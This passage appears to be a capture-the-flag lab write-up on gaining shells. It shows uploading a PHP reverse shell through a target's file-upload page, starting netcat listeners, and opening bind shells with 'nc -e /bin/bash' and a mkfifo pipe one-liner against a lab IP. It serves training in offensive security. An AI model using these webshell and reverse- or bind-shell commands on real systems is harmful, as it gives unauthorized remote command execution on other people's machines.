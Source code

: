 ```

2. Navigate to ```/usr/share/webshells/php/php-reverse-shell.php``` in Kali and ```change the IP and port``` to match your ```tun0 IP with a custom port```. 
Set up a ```netcat listener```, then ```upload and activate the shell```.

For Question 1 and 2:
Step 1 - start the Linux box in Task 13 
Step 2 - On Terminal, nagivate to /usr/share/webshells/php/ and locate the php-reverse-shell.php
step 3 - cp the file to /desktop

Step 4 - edit the file and change the IP to the Attack Box IP not the target machine
![img](/assets/img/wts18.png)

Step 5 - On the terminal, setup the reverse shell back to your ```Attackbox``` (waiting listener)
![img](/assets/img/wts19.png) 

Step 6 - Open Firefox with the Target IP, the page has the interface to Upload the php-reverse-shell.php file to the Target.
![img](/assets/img/wts20.png)

Step 7 - Click the link from the upload page and change address field of the browser to the "uploads" directory. Then click the reverse shell php file. 

Step 8 - The terminal will now connected and listensing the Target

Step 9 - To setup the connection on Question 1.  listensing from Attacker box via nc ```<Local-IP>``` ```<Port>```" -e /bin/bash"
Open the terminal, as follow:
```
nc -lvnp 1024
```
![img](/assets/img/wts21.png)

Step 10 - successfully completed 2 reverse shells for Q1 and Q2

---

3. Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

Step 1 - ssh on AttackBox terminal using the credential from Task 13
```
ssh shell@10.10.8.56
```
Step 2 - bind and revese shell techniques from Task 8
For bind shell
- Option 1: 
```
nc -lvnp <PORT> -e /bin/bash
```

- Option 2: Using Pipes
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```
```
mkfifo /tmp/f; nc -lvnp 8080 < /tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```

![img](/assets/img/wts23.png)

Step 3 - open another terminal from Attack box to Target using nc command below
```
nc 10.10.8.56 8080
```
```